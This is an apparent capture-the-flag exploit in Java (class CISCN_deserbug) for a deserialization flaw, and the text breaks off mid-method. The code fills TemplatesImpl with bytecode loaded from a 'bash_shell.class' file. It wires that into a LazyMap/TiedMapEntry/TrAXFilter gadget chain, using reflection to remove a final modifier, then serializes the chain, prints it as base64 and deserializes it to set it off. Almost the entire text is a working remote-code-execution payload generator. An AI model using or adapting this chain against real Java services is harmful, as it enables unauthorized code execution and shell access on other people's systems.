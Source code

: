 ```java
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CISCN_deserbug {
    public static void main(String[] args) throws Exception
    {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\Test\\target\\classes\\bash_shell.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Myexpect myexpect = new Myexpect();
        myexpect.setTypeparam(new Class[]{Templates.class});
        myexpect.setTargetclass(TrAXFilter.class);
        myexpect.setTypearg(new Object[]{templatesClass});
        JSONObject jsonObject = new JSONObject();//CC3TrAXFilter
        Map lazyMap = LazyMap.decorate(jsonObject, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        jsonObject.remove("test1");
        Field factory = lazyMap.getClass().getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, new ConstantTransformer(myexpect));
        serialize(hashMap);
        System.out.println(base64encode(Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\Test\\ser.bin"))));
        unserialize("ser.bin");
    }
    public static String base64encode(byte[] bytes) throws Exception
    {
        Class<?> base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder").invoke(null);
        return (String) Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder,bytes);
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws Exception {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
```